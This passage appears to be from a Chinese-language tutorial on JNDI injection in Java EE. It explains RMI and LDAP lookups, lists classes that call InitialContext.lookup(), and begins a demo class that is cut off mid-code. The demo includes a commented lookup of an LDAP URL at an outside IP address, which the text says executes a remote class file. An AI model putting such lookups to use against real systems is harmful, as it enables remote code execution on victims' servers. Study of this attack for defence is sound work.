 # JavaEE应用&JNDI注入&RMI服务&LDAP服务&JDK绕过&调用链类

## 思考

什么是jndi注入？

为什么有jndi注入？

JDNI注入安全问题？

JDNI注入利用条件？



<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/image-20251023161019455.png" alt="image-20251023161019455" style="zoom: 80%;" />



> JNDI全称为Java Naming and DirectoryInterface（ Java 命名和目录接口），是一组应用程序接口，为开发人员查找和访问各种资源提供了统一的通用接口，可以用来定义用户、网络、机器、对象和服务等各种资源。JNDI支持的服务主要有：DNS、LDAP、CORBA、RMI等。
>
> RMI：远程方法调用注册表
>
> LDAP：轻量级目录访问协议

### 调用检索

调用检索：

Java为了将Object对象存储在Naming或 Directory服务下，提供了 Naming Reference 功能，对象可以通过绑定Reference存储在Naming或 Directory服务下，比如RMI 、LDAP等。 

**javax.naming.InitialContext.lookup()**

在 RMI 服务中调用了 InitialContext.lookup() 的类有：

**org.springframework.transaction.jta.JtaTransactionManager.readObject()**

**com.sun.rowset.JdbcRowSetImpl.execute()**

**javax.management.remote.rmi.RMIConnector.connect()**

**org.hibernate.jmx.StatisticsService.setSessionFactoryJNDINa me(String sfJNDIName)**

不止这些，可以自行查询。

在LDAP服务中调用了 InitialContext.lookup() 的类有：

**InitialDirContext.lookup()**

**Spring LdapTemplate.lookup()**

**LdapTemplate.lookupContext()**

## JNDI 注入-RMI&LDAP 服务

创建项目，之后再创建JndiDemo，代码如下：

```java
package org.example.jndiinjectdemo;

import javax.naming.InitialContext;
import javax.naming.NamingException;

public class JndiDemo {
    public static void main(String[] args) throws NamingException {
        // 创建一个rmi ldap等服务调用  实例化对象
        InitialContext ic = new InitialContext();
        // 调用rmi ldap等服务对象类(远程服务)
        //ldap://47.243.198.220:1389/5le86y = 远程地址的一个class文件被执行
        //ic.lookup("ldap://47.243.198.220:1389/5le86y");
```